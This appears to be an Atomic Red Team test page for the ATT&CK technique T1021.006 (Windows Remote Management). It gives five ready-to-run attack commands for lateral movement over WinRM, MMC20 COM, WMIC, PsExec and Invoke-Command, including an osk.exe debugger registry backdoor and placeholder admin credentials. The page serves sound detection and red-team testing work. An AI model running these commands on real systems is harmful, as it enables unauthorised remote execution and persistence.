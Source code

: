 # T1021.006 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1021.006)
<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote systems using Windows Remote Management (WinRM). The adversary may then perform actions as the logged-on user.

WinRM is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services).(Citation: Microsoft WinRM) It may be called with the `winrm` command or by any number of programs such as PowerShell.(Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

Upon successful execution, powershell will "Enable-PSRemoting" allowing for remote PS access.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Enable-PSRemoting -Force
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|


#### Attack Commands: Run with `powershell`! 


```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process.

Upon successful execution, cmd will utilize wmic.exe to modify the registry on a remote endpoint to swap osk.exe with cmd.exe.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```






<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process.

Upon successful execution, cmd will utilize psexec.exe to spawn cmd.exe on a remote system.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| psexec_exe | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_exe} \\#{computer_name} -u #{user_name} -p #{password} -s cmd.exe
```




#### Dependencies:  Run with `command_prompt`!
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```cmd
if (Test-Path "#{psexec_exe}") { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```cmd
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory ("#{psexec_exe}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_exe}" -Force
```




<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host.

Upon successful execution, powershell will execute ipconfig on localhost using `invoke-command`.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | localhost|
| remote_command | Command to execute on remote Host | String | ipconfig|


#### Attack Commands: Run with `powershell`! 


```powershell
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```






<br/>
